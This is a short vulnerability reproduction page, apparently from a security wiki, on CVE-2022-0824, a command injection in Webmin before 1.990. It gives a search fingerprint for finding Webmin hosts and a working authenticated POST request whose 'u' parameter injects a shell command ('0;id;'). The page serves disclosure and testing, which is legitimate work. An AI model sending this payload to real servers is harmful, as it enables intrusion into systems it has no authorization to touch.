 # Webmin update.cgi background remote command execution vulnerability CVE-2022-0824

## Vulnerability Description

Webmin is a set of Web-based system management tools for Unix-like operating systems in the Webmin community.

There was a security vulnerability in the version before Webmin 1.990. This vulnerability originated from incorrect access control in the software. Attackers can use this vulnerability to implement remote code execution.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Webmin < 1.990</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="webmin"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827113208771.png)

Send request packet after login

```php
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: https:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661516324481-459f62d3-08f5-49e8-961c-42e4e1b7e4db-20220827113227774.png)
